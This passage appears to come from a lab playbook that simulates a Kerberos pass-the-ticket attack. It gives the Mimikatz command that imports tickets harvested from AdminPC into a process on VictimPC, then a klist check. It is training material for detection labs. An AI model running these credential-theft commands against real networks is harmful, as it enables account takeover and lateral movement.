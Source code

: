 ### Mimikatz Kerberos::ptt

With the tickets locally on VictimPC, it's finally time to become SamiraA by "Passing the Ticket".

1. From the location of **Mimikatz** on **VictimPC**'s filesystem, open a new **elevated command prompt**, and execute the following command:

    ```dos
    mimikatz.exe "privilege::debug" "kerberos::ptt c:\temp\adminpc_tickets" "exit"
    ```

    ![Import the stolen tickets into the cmd.exe process](media/playbook-escalation-ptt1.png)

1. In the same elevated command prompt, validate that the right tickets are in the command prompt session. Execute the following command:

    ```dos
    klist
    ```

    ![Run klist to see the imported tickets in the CMD process](media/playbook-escalation-ptt2.png)

1. Note that these tickets remain unused. Acting as an attacker, we successfully "passed the ticket". We harvested SamirA's credential from AdminPC, and then passed it to another process running on VictimPC.
